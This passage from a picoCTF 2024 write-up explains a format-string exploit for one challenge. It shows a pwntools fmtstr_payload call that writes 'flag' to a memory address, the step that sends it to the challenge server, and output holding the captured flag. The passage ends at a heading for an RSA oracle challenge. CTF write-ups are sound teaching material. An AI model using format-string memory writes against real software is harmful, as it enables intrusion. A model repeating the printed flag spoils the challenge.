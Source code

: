 *Crafting the Payload*
```python
payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
```
fmtstr_payload(offset, {0x404060: 0x67616c66}): Generates a format string payload to write the value 0x67616c66 (which is the ASCII string "flag" in little-endian format) to the memory address 0x404060.

*Send the Payload*
p.sendline(payload): Sends the crafted payload to the remote server.
flag = p.recvall(): Receives all data from the server, which is expected to include the flag.

```bash
[eyun@eax pico]$ python ex.py
Flag:  b"You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\nHere's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@\nI have NO clue how you did that, you must be a wizard. Here you go...\npicoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}"
```

## rsa oracle



[ref](https://github.com/noamgariani11/picoCTF-2024-Writeup/blob/main/Cryptography/rsa_oracle.md)
